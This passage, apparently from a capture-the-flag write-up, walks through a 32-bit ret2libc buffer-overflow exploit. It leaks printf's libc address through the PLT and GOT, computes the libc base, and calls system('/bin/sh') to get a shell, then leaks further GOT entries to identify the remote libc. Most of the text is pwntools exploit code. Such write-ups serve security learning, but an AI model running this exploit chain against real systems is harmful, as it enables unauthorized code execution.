 This diagram shows how to call a function and pass arguments in x86. First we have the overflow "AAAAAAAA" until we reach the return address. Then we will overwrite this with FUNCTION (in our case, we will call the printf function). So, what we are doing is, we are calling the printf function to print the address of the function in libc. When printf function ends, we will make it jump back to the main function and start exploiting other things again

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/2b5f9583-5249-458c-b9a8-f4896bfc64c4)

Now we can calculate the base of libc with this

```python
p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))

libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

payload2  = offset * b'A'
payload2 += p32(libc.sym.system)
payload2 += 4 * b'B'
payload2 += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter(b"? ?: ", payload2)
p.interactive()
```

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/46e74a9f-5323-414f-8e9b-ca240766d9e5)

We have successfully spawned a shell on our local machine.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/58c9f700-2df7-47be-8f35-50a0848abd60)

But when doing this on the remote server, it fails. We can see from the output that the libc base address is weird, which means that it must be using a different libc version. If this is the case, we will need to leak a few addresses of functions in libc to find the version.

```python
payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.printf)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))


payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.fflush)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
fflush = u32(woot)
print("FFLUSH : ", hex(fflush))
```
